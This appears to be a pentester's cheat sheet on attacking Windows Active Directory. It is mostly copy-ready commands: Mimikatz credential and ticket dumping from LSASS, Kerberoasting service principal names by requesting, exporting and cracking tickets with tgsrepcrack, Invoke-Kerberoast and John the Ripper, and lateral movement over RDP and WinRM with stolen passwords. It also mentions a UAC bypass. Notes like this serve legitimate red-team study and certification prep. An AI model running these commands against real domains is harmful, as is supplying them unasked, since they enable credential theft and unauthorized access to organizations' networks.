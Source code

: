 ### Kerberos ####

Kerberos authentication uses a ticketing system, where a Ticket Granting Ticket (TGT) is issued by the Domain Controller (with the role of Key Distribution Center (KDC)) and is used to request tickets from the Ticket Granting Service (TGS) for access to resources/systems joined to the domain.
* Hashes are stored in the Local Security Authority Subsystem Service (LSASS).
* LSASS process runs as SYSTEM, so we need SYSTEM / local admin to dump hashes stored on target.

Dumping hashes or Kerberos TGT/TGS tickets with Mimikatz
```
mimikatz > sekurlsa::tickets
```

Service account attacks
* If we know the `serviceprincipalname` value from prior AD enum, we can target the SPN by by requesting a service ticket for it from the Domain Controller and access resources from the service with our own ticket.
```
# request service ticket
PS> Add-Type -AssemblyName System.IdentityModel
PS> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken \
        -ArgumentList '[service_principal_name]'

# export cached tickets
mimikatz > kerberos::list /export
```

Crack SPN hashes
```
# Kerberoast
$ python3 tgsrepcrack.py rockyou.txt [ticket.kirbi]  # locally crack hashes
PS> Invoke-Kerberoast.ps1                            # crack hashes on target

# John the Ripper
$ python3 kirbi2john.py -o johncrackfile ticket.kirbi  # convert ticket to john file
$ john --wordlist=rockyou.txt johncrackfile
```


## AD Lateral Movement

Have plaintext credentials?
```
# RDP clients
$ rdesktop [target]
$ remmina -c rdp://[username]:[password]@[target]

# WinRM client (used in compromised computer) - ensure WSMAN port 5985 is open on target
cmd> winrs -u:[username] -p:[password] -r:http://[target]:5985/wsman "cmd"

# Admin groups but with a "MANDATORY LABEL\MEDIUM" context?
# Try UAC bypass technique.
```
